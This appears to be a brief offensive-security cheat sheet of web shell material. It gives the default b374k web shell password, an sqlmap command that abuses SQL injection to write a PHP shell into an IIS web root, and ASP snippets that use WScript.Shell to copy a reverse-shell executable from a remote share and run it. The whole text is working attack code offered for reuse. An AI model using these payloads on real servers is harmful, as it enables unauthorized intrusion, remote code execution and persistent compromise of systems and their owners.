 These web shells helped tons. They might help you as well.

### [b374k webshell password]
```
b374k
```

### [Uploading Webshell using sqlmap]
```
sqlmap -r file_request --file-write=/root/pwn/http/winterwolfshell.php --file-dest=/inetpub/wwwroot/uploads/winterwolfshell.php --batch
```

### [asp based webshell]
```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /C mkdir C:\test",0,True)
%>

<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /C copy \\<ip>\share\reverseShell.exe C:\test\reverseShell.exe",0,True)
%>

<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /C start C:\test\reverseShell.exe",0,True)
%>
```
